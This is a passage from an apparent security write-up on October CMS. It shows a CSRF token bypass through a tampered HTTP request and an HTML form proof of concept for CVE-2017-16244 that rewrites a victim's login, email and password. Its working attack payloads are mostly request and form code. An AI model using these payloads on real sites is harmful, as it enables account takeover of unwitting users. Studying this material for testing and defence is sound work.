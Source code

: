 To bypass the CSRF tokens, I the entire `X-CSRF` and all of proprietary (`X-`) headers, as well as overwriting the `_session_key=<value>` and `_token=<value>` data parameters with the new data `_handler=onSave`, which the value `onSave` is obtained from the header value `X-October-Request-Handler: onSave`.

```
POST /some-endpoint/backend/users/myaccount HTTP/2
Host: victim-site.com
...SNIP...
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 280
Origin: https://victim-site.com
Referer: https://victim-site.com/some-endpoint/backend/users/myaccount
...SNIP...

_handler=onSave&User%5Blogin%5D=basicadmin&User%5Bemail%5D=attacker%40mail.com&User%5Bfirst_name%5D=MyAttacker&User%5Blast_name%5D=AdminBasic&User%5Bpassword%5D=&User%5Bpassword_confirmation%5D=&redirect=0
```

After tampering with such requests, I successfully edit the user profiles with CSRF token bypass.

![20250518170620.png](/assets/octobercms-cves/20250518170620.png)

## [CVE-2017-16244 Exploit](#cve-2017-16244-exploit)

After some time, I found a video PoC, which I'll put it on the [**References/Sources**](#referencessources) section, on how to create the CSRF. I put the HTML script under the file `csrf-test.html`

```html
<html>
  <body>
    <form action="https://victim-site.com/some-endpoint/backend/users/myaccount" method="POST">
      <input type="hidden" name="&#95;handler" value="onSave" />
      <input type="hidden" name="User&#91;login&#93;" value="kedaiesteh" />
      <input type="hidden" name="User&#91;email&#93;" value="kedaiesteh&#64;email&#46;com" />
      <input type="hidden" name="User&#91;first&#95;name&#93;" value="PoC" />
      <input type="hidden" name="User&#91;last&#95;name&#93;" value="EsTeh" />
      <input type="hidden" name="User&#91;password&#93;" value="secret1234" />
      <input type="hidden" name="User&#91;password&#95;confirmation&#93;" value="secret1234" />
      <input type="hidden" name="redirect" value="0" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
